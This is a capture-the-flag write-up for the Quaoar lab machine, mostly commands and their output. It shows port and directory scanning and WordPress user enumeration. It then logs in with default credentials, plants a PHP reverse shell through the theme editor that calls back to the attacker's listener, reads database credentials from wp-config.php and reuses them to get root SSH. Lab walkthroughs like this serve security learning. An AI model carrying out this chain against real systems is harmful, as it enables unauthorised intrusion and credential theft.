 # ctf-Quaorar
Opening with NMAP :
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d0:0a:61:d5:d0:3a:38:c2:67:c3:c3:42:8f:ae:ab:e5 (DSA)
|   2048 bc:e0:3b:ef:97:99:9a:8b:9e:96:cf:02:cd:f1:5e:dc (RSA)
|_  256 8c:73:46:83:98:8f:0d:f7:f5:c8:e4:58:68:0f:80:75 (ECDSA)
53/tcp  open  domain      ISC BIND 9.8.1-P1
| dns-nsid: 
|_  bind.version: 9.8.1-P1
80/tcp  open  http        Apache httpd 2.2.22 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_Hackers
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
110/tcp open  pop3?
139/tcp open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
445/tcp open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
993/tcp open  ssl/imap    Dovecot imapd
| ssl-cert: Subject: commonName=ubuntu/organizationName=Dovecot mail server
| Not valid before: 2016-10-07T04:32:43
|_Not valid after:  2026-10-07T04:32:43
|_ssl-date: 2017-10-16T05:14:13+00:00; 0s from scanner time.
995/tcp open  ssl/pop3s?
| ssl-cert: Subject: commonName=ubuntu/organizationName=Dovecot mail server
| Not valid before: 2016-10-07T04:32:43
|_Not valid after:  2026-10-07T04:32:43
MAC Address: 08:00:27:77:97:F9 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X|3.X
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 - 3.5
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

and one dirb //dirb http://192.168.1.96/   /home/boax/Téléchargements/common.txt


Entering directory: http://192.168.1.96/wordpress/ ----
==> DIRECTORY: http://192.168.1.96/wordpress/index/                            
+ http://192.168.1.96/wordpress/index.php (CODE:301|SIZE:0)                    
+ http://192.168.1.96/wordpress/license (CODE:200|SIZE:19930)                  
+ http://192.168.1.96/wordpress/readme (CODE:200|SIZE:7195)                    
==> DIRECTORY: http://192.168.1.96/wordpress/wp-admin/                         
+ http://192.168.1.96/wordpress/wp-blog-header (CODE:200|SIZE:0)               
+ http://192.168.1.96/wordpress/wp-config (CODE:200|SIZE:0)                    
==> DIRECTORY: http://192.168.1.96/wordpress/wp-content/                       
+ http://192.168.1.96/wordpress/wp-cron (CODE:200|SIZE:0)                      
==> DIRECTORY: http://192.168.1.96/wordpress/wp-includes/                      
+ http://192.168.1.96/wordpress/wp-links-opml (CODE:200|SIZE:217)              
+ http://192.168.1.96/wordpress/wp-load (CODE:200|SIZE:0)                      
+ http://192.168.1.96/wordpress/wp-login (CODE:200|SIZE:2530)                  
+ http://192.168.1.96/wordpress/wp-mail (CODE:500|SIZE:3011)                   
+ http://192.168.1.96/wordpress/wp-settings (CODE:500|SIZE:0)                  
+ http://192.168.1.96/wordpress/wp-signup (CODE:302|SIZE:0)                    
+ http://192.168.1.96/wordpress/wp-trackback (CODE:200|SIZE:135)               
+ http://192.168.1.96/wordpress/xmlrpc (CODE:200|SIZE:42)                      
+ http://192.168.1.96/wordpress/xmlrpc.php (CODE:200|SIZE:42)     


Site based on wordpress !

wpscan attack /

ruby wpscan.rb -u http://192.168.1.96/wordpress --enumerate u
_______________________________________________________________
        __          _______   _____                  
        \ \        / /  __ \ / ____|                 
         \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \ 
           \  /\  /  | |     ____) | (__| (_| | | | |
            \/  \/   |_|    |_____/ \___|\__,_|_| |_|

        WordPress Security Scanner by the WPScan Team 
                       Version 2.9.4-dev
          Sponsored by Sucuri - https://sucuri.net
      @_WPScan_, @ethicalhack3r, @erwan_lr, @_FireFart_
_______________________________________________________________

[+] URL: http://192.168.1.96/wordpress/
[+] Started: Thu Oct 19 20:14:14 2017

[+] Enumerating usernames ...
[+] Identified the following 2 user/s:
    +----+--------+--------+
    | Id | Login  | Name   |
    +----+--------+--------+
    | 1  | admin  | admin  |
    | 2  | wpuser | wpuser |
    +----+--------+--------+
 
 Log on http://192.168.1.96/wordpress/wp-login.php?loggedout=true
with admin/admin .

Then , on the dashboard , on Apparence / Editor / Header , we can put a reverseShell  ( http://pentestmonkey.net/tools/web-shells/php-reverse-shell ) . Set up with ur IP and with for example the port 4444 open .

So listen on 4444 :
which python
/usr/bin/python
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@Quaoar:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@Quaoar:/$ ls -lat
ls -lat
total 85
drwxr-xr-x  15 root root  4000 Oct 19  2017 dev
drwxr-xr-x 117 root root  4096 Oct 19  2017 etc
drwxr-xr-x  13 root root     0 Oct 19  2017 sys
drwxrwxrwt   3 root root  4096 Oct 19 14:23 tmp
drwxr-xr-x  24 root root   780 Oct 19 14:12 run
dr-xr-xr-x 107 root root     0 Oct 19 14:12 proc
drwxr-xr-x  13 root root  4096 Jan 15  2017 var
drwx------   6 root root  4096 Nov 30  2016 root
drwxr-xr-x   4 root root  1024 Oct 28  2016 boot
drwxr-xr-x   2 root root  4096 Oct 28  2016 sbin
drwxr-xr-x   3 root root  4096 Oct 24  2016 home
drwxr-xr-x  22 root root  4096 Oct  7  2016 .
drwxr-xr-x  22 root root  4096 Oct  7  2016 ..
-rw-------   1 root root  1024 Oct  7  2016 .rnd
drwxr-xr-x  21 root root  4096 Oct  7  2016 lib
drwxr-xr-x   2 root root  4096 Oct  7  2016 bin
lrwxrwxrwx   1 root root    33 Oct  7  2016 vmlinuz -> boot/vmlinuz-3.2.0-23-generic-pae
lrwxrwxrwx   1 root root    37 Oct  7  2016 initrd.img -> /boot/initrd.img-3.2.0-23-generic-pae
drwxr-xr-x   3 root root  4096 Oct  7  2016 media
drwxr-xr-x  10 root root  4096 Oct  7  2016 usr
drwxr-xr-x   2 root root  4096 Oct  7  2016 opt
drwxr-xr-x   2 root root  4096 Oct  7  2016 srv
drwx------   2 root root 16384 Oct  7  2016 lost+found
drwxr-xr-x   2 root root  4096 Apr 19  2012 mnt
drwxr-xr-x   2 root root  4096 Mar  5  2012 selinux

further ...

cd home
www-data@Quaoar:/home$ ls
ls
wpadmin
www-data@Quaoar:/home$ cd wpadmin
cd wpadmin
www-data@Quaoar:/home/wpadmin$ ls
ls
flag.txt
www-data@Quaoar:/home/wpadmin$ cat flag.txt
cat flag.txt
2bafe61f03117ac66a73c3c514de796e

The flag1 !!!

So , lets continue :

 cd var
cd var
www-data@Quaoar:/var$ ls
ls
backups  cache	crash  lib  local  lock  log  mail  opt  run  spool  tmp  www
www-data@Quaoar:/var$ cd www
cd www
www-data@Quaoar:/var/www$ ls
ls
CHANGELOG			hack-planet-high-definition-mobile.jpg
COPYING				hacker-manifesto-ethical.jpg
Hack_The_Planet.jpg		hacking.jpg
Hack_The_Planet2.jpg		hsperfdata_tomcat6
Hack_The_Planet3.jpg		index.html
INSTALL				pososibo-ethical-hacking-hack-fond.jpg
LICENSE				robots.txt
Quaoar.jpg			tomcat6-tomcat6-tmp
README.md			upload
hack-planet-1280-amox-zone.jpg	wordpress
www-data@Quaoar:/var/www$ cd wordpress 
cd wordpress
www-data@Quaoar:/var/www/wordpress$ ls
ls
index.php	 wp-blog-header.php    wp-cron.php	  wp-mail.php
license.txt	 wp-comments-post.php  wp-includes	  wp-settings.php
readme.html	 wp-config-sample.php  wp-links-opml.php  wp-signup.php
wp-activate.php  wp-config.php	       wp-load.php	  wp-trackback.php
wp-admin	 wp-content	       wp-login.php	  xmlrpc.php

and cat wp-config.php
cat wp-config.php
<?php
/**
 * The base configurations of the WordPress.
 *
 * This file has the following configurations: MySQL settings, Table Prefix,
 * Secret Keys, WordPress Language, and ABSPATH. You can find more information
 * by visiting {@link http://codex.wordpress.org/Editing_wp-config.php Editing
 * wp-config.php} Codex page. You can get the MySQL settings from your web host.
 *
 * This file is used by the wp-config.php creation script during the
 * installation. You don't have to use the web site, you can just copy this file
 * to "wp-config.php" and fill in the values.
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'rootpassword!');

give credentials for ssh connection (root / rootpassword! ) :


ssh root@192.168.1.96
The authenticity of host '192.168.1.96 (192.168.1.23)' can't be established.
ECDSA key fingerprint is SHA256:+ODdJgfptUyyVzKI9wDm804SlXxzmb4/BiKsHCnHGeg.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.1.23' (ECDSA) to the list of known hosts.
root@192.168.1.23's password: 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic-pae i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Thu Oct 19 14:36:35 EDT 2017

  System load:  0.0               Processes:             102
  Usage of /:   29.8% of 7.21GB   Users logged in:       0
  Memory usage: 55%               IP address for eth0:   192.168.1.23
  Swap usage:   0%                IP address for virbr0: 192.168.122.1

  Graph this data and manage this system at https://landscape.canonical.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Sun Jan 15 11:23:45 2017 from desktop-g0lhb7o.snolet.com
root@Quaoar:~# id
uid=0(root) gid=0(root) groups=0(root)

and :ls -lat
total 48
-rw-------  1 root root  368 Jan 15  2017 .bash_history
drwx------  6 root root 4096 Nov 30  2016 .
-rw-------  1 root root 4740 Nov 30  2016 .viminfo
drwx------  2 root root 4096 Oct 26  2016 .ssh
----------  1 root root   33 Oct 22  2016 flag.txt
drwx------  2 root root 4096 Oct 15  2016 .cache
drwxr-xr-x 22 root root 4096 Oct  7  2016 ..
drwx------  2 root root 4096 Oct  7  2016 .aptitude
drwxr-xr-x  8 root root 4096 Jan 29  2015 vmware-tools-distrib
-rw-r--r--  1 root root 3106 Apr 19  2012 .bashrc
-rw-r--r--  1 root root  140 Apr 19  2012 .profile

the last flag :

cat flag.txt   

the flag2 :e3f9ec016e3598c5eec11fd3d73f6fb


TY ! 










